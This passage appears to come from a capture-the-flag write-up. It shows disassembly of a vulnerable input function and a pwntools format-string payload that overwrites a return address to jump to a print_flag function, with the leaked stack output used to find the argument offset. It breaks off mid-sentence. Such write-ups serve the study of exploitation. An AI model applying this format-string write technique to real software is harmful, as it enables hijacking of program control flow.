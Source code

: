 ```
                                                                                                   0010128e(*), 
                                                                                                   001012b1(*)  
             undefined4        Stack[-0x11c   local_11c                               XREF[7]:     001012c7(W), 
                                                                                                   001012cd(R), 
                                                                                                   001012d6(R), 
                                                                                                   001012df(R), 
                                                                                                   001012e8(R), 
                                                                                                   001012f1(R), 
                                                                                                   001012fa(R)  
                             get_input                                       XREF[4]:     Entry Point(*), main:0010134c(c), 
                                                                                          00102108, 00102244(*)  
        001011ff 55              PUSH       RBP
        00101200 48 89 e5        MOV        RBP,RSP
```

The saved rbp minus 8 points to return address. So we want to write data to rbp-8 to override the return address.

Relevant code:

```python
short = print_flag & 0xffff
target = rbp - 8
# write short to target
p.sendline(f"%{short:05}c%10$hnAAA".encode() + p64(target))
```

We write the lowest 16 bits of `print_flag` to `rbp-8` via:

1. `%{short:05}c`: print characters of length `short`, which equals to `print_flag & 0xffff`
2. `%10$hn`: write the printed character count as 16-bit integer to the 10th parameter
3. `AAA`: padding to make `p64(target)` goes to 10th parameter
4. `p64(target)`: saves the target address in the 10th parameter

How do we know it is the 10th parameter? Previously, the output was:

```
55fa746ed2a0,0,7f4675aa28e0,0,
0,2400000,2,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25
```

Our format strings starts at the 8th parameter. Now, the parameter looks like:
